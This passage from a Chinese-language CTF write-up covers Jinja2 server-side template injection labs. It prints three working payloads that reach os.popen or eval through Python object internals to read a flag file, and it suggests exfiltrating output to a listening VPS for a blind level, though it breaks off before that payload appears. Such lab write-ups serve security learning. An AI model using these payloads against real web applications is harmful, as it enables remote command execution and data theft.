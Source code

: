 [![在这里插入图片描述](assets/1698900310-0068030514aa81917f0e58fb65e97566.png)](https://storage.tttang.com/media/attachment/2022/08/14/90aaa944-2f86-4702-b39d-4317f657f8cb.png)  
构造 payload

```plain
{%print(().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
```

或者也可以用循环语句

```plain
{%print(url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()"))%}
```

或者那种循环语句，在 level1 中也提及过

```plain
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('cat flag').read()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-9df9c32eb3988e1eb0d95c1952b3953b.png)](https://storage.tttang.com/media/attachment/2022/08/14/eefc4e22-065d-4615-9ad0-b370f519206d.png)

### [level 3](#toc_level-3)

题目描述  
[![在这里插入图片描述](assets/1698900310-3e4904babaceb8192e85ae5444d9a850.png)](https://storage.tttang.com/media/attachment/2022/08/14/c8d1a0e8-2064-4672-a2bf-25fde757363e.png)  
进入环境简单测试一下，发现只回显正确与错误，如下图  
[![在这里插入图片描述](assets/1698900310-e64bf7c6abbd74821264f319f0a1e30d.png)](https://storage.tttang.com/media/attachment/2022/08/14/d6d8562a-4563-41f3-a7c0-5f874b3326e5.png)  
这个时候就可以考虑用 VPS 监听来获取 flag，具体 payload 的话，我们仍然可以用之前的姿势，将脚本简单改一下就可以，如下所示
